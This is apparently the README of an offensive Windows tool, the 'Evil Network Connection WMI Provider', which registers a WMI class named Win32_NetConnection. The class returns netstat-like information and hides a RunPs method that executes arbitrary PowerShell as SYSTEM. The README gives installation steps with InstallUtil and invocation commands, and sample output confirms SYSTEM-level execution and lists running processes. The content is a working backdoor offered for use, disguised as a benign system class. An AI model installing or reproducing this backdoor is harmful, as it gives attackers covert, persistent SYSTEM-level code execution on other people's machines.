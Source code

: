 Evil Network Connection WMI Provider
- Returns Netstat like Information when queried
- Contains a RunPs Method that executes arbitrary PowerShell as System

To install:
- Download and unzip project
- Open administrator prompt
- cd to directory containing EvilNetConnectionWMIProvider.dll (<downloadpath>\EvilNetConnectionWMIProvider-master\EvilNetConnectionWMIProvider\bin\Debug)
- run "InstallUtil.exe /i EvilNetConnectionWMIProvider.dll"
-- Uninstall "InstallUtil.exe /u EvilNetConnectionWMIProvider.dll"

To use:
- Open PowerShell
-- Get-WMIObject Win32_NetConnection
--- returns netstat information (Active TCP Connections, TCP Listeners, UDP Listeners)
-- Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "<powershell command>", $NULL

Examples 1:
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "whoami", $NULL

__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     :
__DYNASTY        : __PARAMETERS
__RELPATH        :
__PROPERTY_COUNT : 1
__DERIVATION     : {}
__SERVER         :
__NAMESPACE      :
__PATH           :
ReturnValue      : nt authority\system


Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "Get-Process", $NULL

__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     :
__DYNASTY        : __PARAMETERS
__RELPATH        :
__PROPERTY_COUNT : 1
__DERIVATION     : {}
__SERVER         :
__NAMESPACE      :
__PATH           :
ReturnValue      : Handles  NPM(K)    PM(K)      WS(K) VM(M)   CPU(s)     Id ProcessName
                   -------  ------    -----      ----- -----   ------     -- -----------
                      1053      56    46364      37780   466    23.28   2260 chrome
                       138      18    25716       1300   201     0.51   2340 chrome
                       204      26    86716      42364   267    12.39   2820 chrome
                       184      24    89464       2476   354     2.54   3356 chrome
                       220      29    80648      67928   347    75.16   3992 chrome
                        53       6     2348       8340    60     0.16   1620 conhost
                        33       5      960       2780    22     0.00   2112 conhost
                       480      11     2192       1680    43     4.62    336 csrss
                       308      15     6332       3280   167     3.00    428 csrss
                       191      15     4244        704    56     0.72   2004 dllhost
                       150      16    64388      42996   151    15.58   2416 dwm
                       803      48    38536      16940   255     6.13   2448 explorer
                         0       0        0         24     0               0 Idle
                       575      19     4012       2752    38     1.62    480 lsass
                       203      10     2908       1260    30     0.22    488 lsm
                        88      10     3464       1752    39     0.23   3520 mscorsvw
                        79       8     4276       1492    36     0.36   3732 mscorsvw
                       148      17     3380        280    61     0.25   1932 msdtc
                       351      25    56256      55196   571     1.15   2256 powershell
                       215      13     5180       3284    39     2.64    464 services
                        30       1      436        104     4     0.06    248 smss
                       330      23     7484       1860    97     0.14   1180 spoolsv
                       169       9     7824        332    45     3.06   2492 sppsvc
                       112       7     2132       1300    26     0.14    212 svchost
                       702      41    16232      10168   380     2.95    272 svchost
                       365      14     4440       2888    42     2.68    636 svchost
                       285      16     4340       3540    35     0.90    712 svchost
                       472      23    17420       6480    74     1.31    776 svchost
                       483      25   140276     127700   216    19.53    868 svchost
                       573      22     7300       5196    71     1.95    920 svchost
                      2004     626   997868     827040  1443   660.40    956 svchost
                       319      33    11448       4672    67     2.87   1208 svchost
                        96       8     1700        336    43     0.05   1724 svchost
                       121      12     2024       1536    29     0.06   2912 svchost
                       362      45    66784      25088   214    21.03   3776 svchost
                       562       0      108         48     3               4 System
                       215      20     8616       1508    95     0.20   2308 taskhost
                       280      18    55820      46852   327   228.54   3824 TrustedInstaller
                       307      23     7364       4208    90     3.88   1360 vmtoolsd
                       267      24    13024       4572   128     5.10   2632 vmtoolsd
                        75       9     1476        224    44     0.27    408 wininit
                       120      10     2776        260    53     0.64    552 winlogon
                       260      34    59360      54492   554     0.84   2192 WmiPrvSE
                       115      10     2200        996    33     0.05   3244 WmiPrvSE
                        98       9     1980       2372    71     0.09   3740 wuauclt
